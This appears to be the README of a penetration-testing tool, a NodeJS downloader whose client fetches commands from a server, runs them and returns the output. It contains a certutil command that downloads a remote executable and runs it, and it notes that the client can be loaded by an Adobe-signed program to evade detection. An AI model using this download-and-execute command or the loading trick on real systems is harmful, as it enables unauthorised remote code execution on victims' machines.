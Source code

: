 # NodeJS-Downloader
An example of a downloader written in NodeJS.

Author:3gstudent

#### Usage:

1. Download the NodeJS:

https://nodejs.org/en/download/

You just need node.exe in the file.

2. Set the command sent to the client:

Edit the Server.js

eg.

`var command = 'certutil -urlcache -split -f https://github.com/3gstudent/test/raw/master/putty.exe c:\\a.exe&&c:\\a.exe';`

Note:

More ways to download & execution：

[《渗透技巧——从github下载文件的多种方法》](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BB%8Egithub%E4%B8%8B%E8%BD%BD%E6%96%87%E4%BB%B6%E7%9A%84%E5%A4%9A%E7%A7%8D%E6%96%B9%E6%B3%95)


3. Start the server

```
node.exe Server.js
```

When you use a browser to access it, it will return 404.

4. Start the client

```
node.exe Client.js
```

It will connect to the server and get the command, then execute the command and send the result again.

Client.js can be loaded by a program with a digital signature of Adobe Systems Incorporated.

![Alt text](https://github.com/3gstudent/NodeJS-Downloader/blob/master/1.png?raw=true)

Reference:

https://bbs.pediy.com/thread-249573.htm


More details:

[《渗透测试中的Node.js——Downloader的实现》](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84Node.js-Downloader%E7%9A%84%E5%AE%9E%E7%8E%B0)
